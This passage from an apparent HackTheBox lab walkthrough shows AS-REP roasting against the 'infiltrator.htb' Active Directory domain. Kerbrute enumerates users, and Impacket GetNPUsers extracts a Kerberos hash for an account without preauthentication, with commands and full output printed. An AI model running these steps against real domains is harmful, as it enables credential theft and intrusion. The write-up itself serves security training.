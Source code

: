 ```console
ethan.rodriguez@infiltrator.htb
ethan_rodriguez@infiltrator.htb
e.rodriguez@infiltrator.htb
e_rodriguez@infiltrator.htb
```

## 3. Credential Access

### 3.1. [AS-REP Roasting](/notes/attacking-active-directory.md#1-as-rep-roasting)

#### 3.1.1. Use kerbrute to find users with preauthentication disabled

```console
root@kali:~# pipx install kerbrute
  installed package kerbrute 0.0.2, installed using Python 3.12.8
  These apps are now globally available
    - kerbrute
⚠️  Note: '/root/.local/bin' is not on your PATH environment variable. These apps will not be globally accessible until your PATH is updated. Run `pipx ensurepath` to automatically add it, or manually
    modify your PATH in your shell's config file (e.g. ~/.bashrc).
done! ✨ 🌟 ✨

root@kali:~# /root/.local/bin/kerbrute -users usernames.txt -domain infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Valid user => d.anderson@infiltrator.htb
[*] Valid user => o.martinez@infiltrator.htb
[*] Valid user => k.turner@infiltrator.htb
[*] Valid user => a.walker@infiltrator.htb
[*] Valid user => m.harris@infiltrator.htb
[*] Valid user => l.clark@infiltrator.htb [NOT PREAUTH]
[*] Valid user => e.rodriguez@infiltrator.htb
[*] No passwords were discovered :'(
```

#### 3.1.2. Use GetNPUsers to get password hashes

`l.clark@infiltrator.htb` identified by kerbrute to not have preauthentication enabled, let's use `GetNPUsers` to get the hash

```sh
root@kali:~# impacket-GetNPUsers infiltrator.htb/l.clark -no-pass -dc-ip dc01.infiltrator.htb -outputfile GetNPUsers.out
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for l.clark
$krb5asrep$23$l.clark@INFILTRATOR.HTB:392b84344073b27971826e9c498b3743$8b5c4ee1ae459ca3198ea968551976e621b051def64daaff0547d61544297af495ad05af527bf027589c27c4d6b16aeb930e37b7dbdc1bbefa556b6ed84d1560ececcf06f81bb1224c8b41f8f6e763fe403128e0d2116a1450380b2c21fd878664b0f474e4e7b8357c077c75bfc1f5d4d04cfb620d51d3ebb5200a6a5d0c34b277f51d5da89e9b304b88ea4f4ae016435aae7e13d8ca2e04ac79b9886e9e9ec51dabfb1490e4ed337c594a6a4350b2d08df5bf496647fccf4b2dc5fee1c9f48531b590aaa71cd7978af8f9b3c698a85d716a5268cacc8f92213677bf91ef9e18331cb08b7e780c0e40bc416559b59b7f1183
```
